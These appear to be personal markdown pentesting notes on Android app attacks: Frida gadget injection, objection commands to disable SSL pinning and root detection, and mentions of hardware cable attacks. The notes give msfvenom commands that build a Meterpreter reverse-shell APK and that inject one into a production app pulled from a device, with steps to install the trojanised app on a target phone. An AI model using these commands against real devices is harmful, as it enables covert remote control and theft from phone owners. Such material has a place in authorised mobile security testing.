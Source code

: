 ##### Injecting Frida manually
https://frida.re/docs/gadget/
https://koz.io/using-frida-on-android-without-root/
- The idea here is to inject Frida in the form of a shared library (.so)
- Roughly speaking:
	1. Obtain Frida .so file and put it in the libs folder
	2. Inject `System.loadLibrary("<frida_lib_name>")` call in launch/main Activity
		- Note: this is smali, not java
	3. Rebuild + resign application
	4. Install
	5. Control Frida via objection while application is running
- Its essentially just rebuilding the application from sources after modifying it to include something akin to trojan, with a bunch of malicious features

#### Frida + objection
```
critt@Mac workbench % objection explore
critt@Mac workbench % android sslpinning disable
```

##### objection core function on startup
```
critt@Mac workbench % objection explore -s "android root disable"
```
##### codeshare script on startup
```
critt@Mac workbench % objection explore --startup-script sslpinninguniversal.js
```


### Other concepts to keep in mind
- In-line attacks (cable attacks)
	- [Hak5 O.M.G Cable](https://shop.hak5.org/products/omg-cable)
	- [Hacker Warehouse](https://hackerwarehouse.com/product/omg-cable-elite/)
- Creating a generic APK with a Metasploit shell
	- `msfvenom -p android/meterpreter/reverse_tcp LHOST=<kali_IP> LPORT=<your_port> R><myapp.apk>`
	- This will make an app with a generic looking icon named "Main Activity"
	- Install it to your target phone: adb install myapp.apk
- Injecting a production APK with a Metasploit shell
	- If using apktool from the Kali-Repo, check version with command:
		- `apktool -version` (if version is 2.x.x-dirty, you will need to remove it with the following commands, per [this article](https://github.com/iBotPeaches/Apktool/issues/2149))
			1. `sudo apt remove apktool`
			2. `sudo apt autoremove`
			3. Then reinstall apktool from [ibotpeaches source, as shown here for Linux Machines]( [https://ibotpeaches.github.io/Apktool/install/](https://ibotpeaches.github.io/Apktool/install/))
	- Automatic meterpreter injection:
		1. Download app to your android device
		2. Pull using adb
			1. `pm list packages | grep <app_name>`
			2. `pm path <app_package_name>`
			3. exit adb shell, then `adb pull <path_to_apk/base.apk> -o <my_app.apk>`
		3. After you have the apk, use the following msfvenom command to inject it automatically:
		4. `msfvenom -x <my_app.apk> -p android/meterpreter/reverse_tcp LHOST=<kali_ip> LPORT=<my_port> -o <my_app_hacked.apk>`
		5. Uninstall the app from the target device, and install the hacked version using adb install <my_app_hacked.apk>
	- [Manual meterpreter embedding](https://www.blackhillsinfosec.com/embedding-meterpreter-in-android-apk/)
- [Ghost Framework](https://github.com/ParikhKadam/ghost-1): leverages wireless debugging for remote admin